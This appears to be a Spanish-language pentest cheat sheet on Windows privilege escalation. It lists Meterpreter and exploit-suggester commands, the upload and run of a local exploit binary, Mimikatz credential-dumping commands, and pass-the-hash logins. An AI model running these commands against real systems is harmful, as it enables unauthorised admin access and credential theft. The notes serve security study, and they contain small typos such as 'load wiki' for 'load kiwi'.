 # Escalación de Privilegios en Windows

## Descripción
a escalación de privilegios en sistemas Windows es un proceso mediante el cual un atacante busca obtener acceso a niveles superiores de autoridad o control en un sistema comprometido. Esto puede permitir al atacante ejecutar comandos con derechos de administrador u otros niveles de acceso privilegiado.

### Automatizado

```python
getsystem(aveces funciona, es propio de meterpreter)
multi/recon/local_exploit_suggester (previamente una sesion de meterpreter, menciona que exploit podemos usar para elevar privilegios)
```

### Manual

```python
./windows-exploit-suggester.py –update
./windows-exploit-suggester.py –database 2021-12-26-mssb.xls –systeminfo win7.txt (este archivo tiene la info, con meterpreter sacas la info con sysinfo o systeminfo).
en meterprete subimos el exploit que nos dice que podemos usar
upload /downloads/41015.exe
./41015.exe 7 (por que es windows 7)
```


#### DUMP HASH 

```python
Mimikatz: https://github.com/gentilkiwi/mimikatz (volcar hash en un sistema windows)
Tambien viene incorporado en metasploit
load wiki (command meterpreter session)
creds_all 
? (ver todos los comandos utiles de kiwi)
lsa_dump_sam (obtenemos todos los hash)
si usamos la herramienta los comandos son:
privilege::debug (para ver si tenemos permisos '20')
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords (ver si hay password texto claro)

lsa_dump_sam
lsa_dump_secrets
probemos el psexec de metasploit para logearnos con un hash NTLM y también con crackmap
```
